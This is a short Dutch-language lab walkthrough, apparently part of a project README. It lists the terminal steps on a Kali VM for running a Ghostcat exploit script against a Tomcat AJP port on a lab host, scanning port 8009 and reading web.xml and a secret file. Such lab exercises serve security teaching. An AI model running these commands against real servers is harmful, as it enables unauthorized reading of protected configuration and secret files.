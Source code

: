 # Starten van de aanval

## 1) Stappen om de aanval succesvol uit te voeren

- 4.1) Start de kali vm (indien deze nog niet aan staat):
- 4.2) open terminal
- 4.3) sudo systemctl start ssh
- 4.4) sudo systemctl enable ssh
- 4.5) cd Downloads
- 4.6) chmod +x exploit_ghostcat.py
- 4.7) nmap 10.10.10.4 -p 8009
- 4.8) python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/web.xml read
- 4.9) python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/secret.txt read
